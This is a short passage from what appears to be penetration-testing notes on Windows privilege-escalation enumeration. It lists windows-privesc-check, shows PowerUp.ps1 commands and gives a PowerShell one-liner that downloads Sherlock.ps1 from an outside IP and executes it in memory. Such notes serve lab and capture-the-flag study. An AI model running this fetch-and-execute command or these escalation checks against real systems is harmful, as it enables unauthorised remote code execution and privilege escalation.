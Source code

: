 ## Automation Tools

You can use windows-privesc-checker by pentestmonkey

{% embed url="https://github.com/pentestmonkey/windows-privesc-check" %}

Or try with PowerUp.ps1 to find some hidden hints

```
PS C:\> powershell.exe import-module .\PowerUp.ps1
PS C:\> Invoke-AllChecks
```

#### Sherlock.ps1

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

```
powershell “IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.43/Sherlock.ps1'); Find-AllVulns”
```



